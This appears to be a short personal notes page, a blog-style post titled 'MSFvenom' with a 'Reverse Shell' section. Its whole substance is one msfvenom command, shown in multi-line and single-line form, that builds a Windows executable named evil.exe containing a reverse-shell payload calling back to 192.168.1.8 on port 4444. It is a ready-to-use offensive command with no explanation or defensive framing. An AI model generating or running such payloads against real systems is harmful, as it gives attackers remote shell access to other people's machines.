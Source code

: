 ```yaml
---
layout: post
title: 'MSFvenom'
permalink: 'msfvenom-examples'
category: notes
subcategory: examples
---
```


## Table of Contents
* [Reverse Shell](#reverse-shell)

## Reverse Shell
```bash
msfvenom \
 --arch x86 \
 --platform windows \
 --payload windows/shell_reverse_tcp \
 LHOST=192.168.1.8 \
 LPORT=4444 \
 -f exe \
 -o evil.exe
```
```bash
msfvenom --arch x86 --platform windows --payload windows/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4444 -f exe -o evil.exe
```

